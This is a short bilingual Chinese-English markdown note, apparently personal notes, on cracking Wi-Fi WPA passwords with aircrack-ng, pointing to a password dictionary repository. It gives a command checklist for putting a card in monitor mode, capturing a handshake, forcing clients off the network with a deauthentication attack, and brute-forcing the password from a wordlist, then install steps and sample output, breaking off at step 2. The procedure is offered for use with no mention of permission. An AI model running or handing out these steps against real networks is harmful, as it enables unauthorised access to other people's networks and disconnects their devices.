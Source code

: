 ```yaml
---
title: wifi crack
tags:

- 破解
---
```



# 破解wifi

[参考](https://github.com/conwnet/wpa-dictionary)


# wpa-dictionary

Used for Wi-Fi password cracking | 用于 Wi-Fi 密码破解。


aircrack-ng 爆破wifi密码 - 命令清单

~#airmon-ng start [网卡]       //开启monitor模式

~#airodump-ng [网卡]          //捕获附件的wifi信息

~#airodump-ng -c [信道]--bssid [路由器MAC] -w [handshake-path] [网卡]

~#aireplay-ng -0 [攻击次数值] -c [某连接设备MAC] -a [路由器MAC] [网卡]

~#aircrack-ng -w [字典-path] [破解的目标握手包-path]

~#airmon-ng stop [网卡]       //退出monitor模式

### Linux 篇（Recommended | 推荐）

The Kali distribution already has everything installed | Kali 发行版已经安装了所有东西

Full english instructions at: https://aircrack-ng.org/doku.php?id=getting_started

### 1. Install | 安装 aircrack-ng

* On Debian/Ubuntu using apt to install: | 使用相应包管理工具安装，例如 Debian/Ubuntu 使用 apt 安装：

~~~shell
sudo apt install aircrack-ng
~~~

### 2. View available wireless network cards | 查看可用的无线网卡

Use the command | 使用命令：`airmon-ng`

~~~
netcon@conwlt:~/workspace$ sudo airmon-ng

PHY	Interface	Driver		Chipset

phy0	wlp8s0		iwlwifi		Intel Corporation Centrino Wireless-N 2230 (rev c4)
~~~
 